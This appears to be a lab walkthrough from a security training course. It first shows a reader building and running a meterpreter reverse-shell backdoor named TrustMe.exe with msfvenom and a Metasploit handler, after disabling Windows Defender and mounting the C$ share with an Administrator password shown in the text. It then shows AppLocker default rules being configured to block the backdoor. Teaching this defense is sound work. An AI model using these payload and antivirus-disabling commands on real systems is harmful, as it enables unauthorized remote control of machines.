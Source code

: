 
# AppLocker

Applocker Instructions:

Let’s see what happens when we do not have **AppLocker** running.  We will set up a simple backdoor and have it connect back to the **Ubuntu** system.  Remember, the goal is not to show how we can bypass **EDR** and **Endpoint** products.  It is to create a simple backdoor and have it connect back.

Before we begin, we need to disable **Defender**. Start by opening an instance of Windows **Powershell**. Do this by clicking on the **Powershell** icon in the taskbar.

![](attachments/OpeningPowershell.png)

Next, run the following command in the **Powershell** terminal:

`Set-MpPreference -DisableRealtimeMonitoring $true`

![](attachments/applocker_disabledefender.png)

This will disable Defender for this session.

If you get angry red errors, that is ==**Ok**==, it means **Defender** is not running.

Let’s get started by opening a **Kali** instance.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's start by getting root access in our terminal.

`sudo su -`

Next, lets run the following command to get our IP address:

`ifconfig`

==**Please note the IP address of Y-O-U-R Ethernet adapter.**==

![](attachments/applocker_ifconfig.png)

Please note that my adapter is called **"eth0"** and my IP address is **"10.10.1.117"** Your IP Address and adapter name may be different.

First, we need to run the following command in order to mount our remote system to the correct directory:

<pre>mount -t cifs //10.10.1.209/c$ /mnt/windows-share -o username=Administrator,password=T@GEq5%r2XJh</pre>

Note: The IP address of `10.10.1.209` does not need to be changed in this command.

If you see the following error, it means that the device is already mounted.

![](attachments/mounterror.png)

If this is the case, just run the following command to navigate into the mounted directory:

<pre>cd /mnt/windows-share</pre>

Run the following commands to start a simple backdoor and backdoor listener: 

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[YOUR LINUX IP] lport=4444 
-f exe -o /mnt/windows-share/TrustMe.exe</pre>

Now let's start the **Metasploit Handler**.  First, open a new Kali instance. The easiest way to do this is by clickin on the Kali icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before doing anything else, we need to run the following command in our new terminal window:

<pre>msfconsole -q</pre>

![](attachments/msfconsole.png)

The Metasploit Handler successfully ran if the terminal now starts with `msf6 >`

Next, let's run the following:
<pre>use exploit/multi/handler</pre>

Now run all of the following commands to set the correct parameters:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST 10.10.1.117</pre>

Remember, your IP will be different!

<pre>exploit</pre>

It should look like this:

![](attachments/msf6commands.png)


Now, let’s download the malware and run it!

First, let's open a Windows command prompt. Do this by clicking on the icon in the taskbar.

![](attachments/OpeningWindowsCommandPrompt.png)

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

<pre>cd \</pre>

<pre>TrustMe.exe</pre>

![](attachments/runtrustme.png)

Back at your Kali terminal, you should now have a metasploit session!

![](attachments/meterpretersession.png)


Now, let’s stop this from happening!

First, let’s configure AppLocker.  To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo)  then type Local Security.  It should bring up a menu like the one below, please select Local Security Policy.

![](attachments/localsecuritypolicy.png)


Next, we will need to configure AppLocker.  To do this, please go to Security Settings > Application Control Policies and  then AppLocker.


![](attachments/localsecpolicywindow.png)



Scroll down in the right hand pane. You will see there are 0 Rules enforced for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to brick a system.

![](attachments/rulesoverview.png)


Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”


![](attachments/createdefaultrules.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 


![](attachments/appliedrules.png)

For simplicity, you can click the next set of rules from the left panel as seen above.

Next, we need to enforce the rules:


To do this you will need to select AppLocker on the far left pane.  Then, you will need to select Configure rule enforcement.  This will open a pop-up, you will need to check Configured for each set of rules

![](attachments/ruleenforcement.png)



Now, we will need to start the Application Identity service.  This is done through pressing the Windows key and typing Services.  

![](attachments/services.png)

This will bring up the Services App.  Please select that and then double-click “Application Identity.”

![](attachments/applicationidentity.png)

Once the Application Identity Properties dialog is open, please press the Start button.  This will start the service.

![](attachments/startservice.png)

Next, open a command prompt and run gpupdate to force the policy change.

![](attachments/OpeningWindowsCommandPrompt.png)

<pre>gpupdate /force</pre>

We are now going to try to run TrustMe.exe as another user on the system. 

Run the following commands:

<pre>cd /IntroLabs</pre>

<pre>runas /user:whitelist "nc"</pre>

The password is `adhd`

![](attachments/runas.png)

As you can see, an error was generated, meaning that we were successful!






